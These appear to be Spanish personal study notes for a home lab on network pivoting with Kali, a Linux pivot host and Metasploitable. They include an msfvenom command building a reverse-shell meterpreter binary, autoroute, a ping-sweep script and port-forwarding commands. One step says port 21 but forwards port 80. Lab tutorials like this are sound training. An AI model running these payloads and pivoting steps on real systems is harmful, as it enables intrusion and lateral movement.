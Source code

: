 ## CONFIGURACIÓN LABORATORIO
Lo primero será ir a la parte de herramientas y Administrador de red: 
![[Mis apuntes/ANEXOS/Pasted image 20230717133814.png]]

Y ahora vamos a la parte de redes NAT y creamos nuestra primera red con estos parámetros:
![[Mis apuntes/ANEXOS/Pasted image 20230717134004.png]]

Por tanto, una vez creada esta red sobre la que haremos pivoting, veremos como configuraremos las 3 máquinas:
MÁQUINA KALI:
![[Mis apuntes/ANEXOS/Pasted image 20230717134609.png]]

MÁQUINA LINUX INTERMEDIA:
![[Mis apuntes/ANEXOS/Pasted image 20230717134629.png]]

MÁQUINA METASPLOITABLE FINAL:
![[Mis apuntes/ANEXOS/Pasted image 20230717134647.png]]

De tal forma que la máquina kali tiene conectividad solo con la máquina Linux Mint; y la máquina Linux mint tiene conectividad tanto con la Kali como con la metasploitable:
![[Pasted image 20231112112447.png]]
# PIVOTING
Lo primero será ponernos a la escucha con el multi/handler, utilizando el siguiente payload:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```

Y ahora con msfvenom generamos el payload:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```
![[Mis apuntes/ANEXOS/Pasted image 20230717125603.png]]

Lo ejecutamos dentro de la máquina objetivo:
![[Pasted image 20231112112729.png]]

Y en metasploit habremos recibido una sesión de meterpreter:
![[Mis apuntes/ANEXOS/Pasted image 20230717125857.png]]

En este punto ya podemos listar las interfaces de red para poder establecer el tráfico o la tunelización con el comando ipconfig:
![[Pasted image 20231112114143.png]]

Ahora para tunelizar todo el tráfico de la máquina ubuntu a la máquina atacante, tenemos que poner la sesión de meterpreter en segundo plano, de tal forma que podamos listarla usando el comando sessions -l:
![[Mis apuntes/ANEXOS/Pasted image 20230717162209.png]]

Ahora utilizamos el módulo de autoroute para enturar el tráfico:
```bash
use post/multi/manage/autoroute
```
![[Pasted image 20231112112908.png]]

Ahora vamos a detectar equipos conectados dentro de la red interna, por lo que usaremos el siguiente script de bash:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```

Compartiéndolo desde nuestra máquina atacante:
![[Pasted image 20231112120252.png]]

Con la máquina víctima:
![[Pasted image 20231112120307.png]]

Lo ejecutamos y detectamos equipos:
![[Pasted image 20231112120513.png]]

Por ejemplo, vamos a escanear la IP 10.10.10.5, por lo que usamos el siguiente módulo para escanear sus puertos:
```bash
use scanner/portscan/tcp
```

Le pasamos la IP de la máquina objetivo (por ejemplo la 10.10.10.5) y vemos que nos devuelve los puertos abiertos:
![[Pasted image 20231112120941.png]]

Vamos a suponer que queremos llegar al puerto 21, por lo que tendríamos que hacer un port forwarding:
```bash
portfwd add -l 5000 -p 80 -r 10.10.10.5
```

